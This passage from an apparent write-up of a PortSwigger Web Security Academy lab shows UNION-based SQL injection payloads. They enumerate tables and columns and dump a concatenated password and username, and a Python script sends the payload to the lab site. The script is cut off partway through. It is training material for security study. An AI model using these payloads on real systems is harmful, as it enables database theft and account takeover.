 From this, can grab all the tables.

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```

Lots of tables, but the `pg_user` table looks interesting. I then extracted column names:

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'-- -
```

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-3.png)

Pretty obvious what to do next. However, the stuff I wanted was not there. Turns out, there's another table `users_eorcco`.

Columns: `password_robfjs`, `username_mcgiwx`. Then, use `concat` to combine them into one column with UNION.

```sql
' UNION SELECT concat(password_robfjs,username_mcgiwx),NULL from users_eorcco--
```

Returns `q34iaupfbt8slh249km3administrator`, which we can use to login!

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' UNION SELECT concat(password_robfjs,username_mcgiwx),NULL from users_eorcco--"
}

url = 'https://0a6e00e404adae4c80db495b00f70074.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
	sys.exit(1)
else:
	if re.search(r"col1",r.text):
		print("Col1")
	elif re.search(r"col2",r.text):
```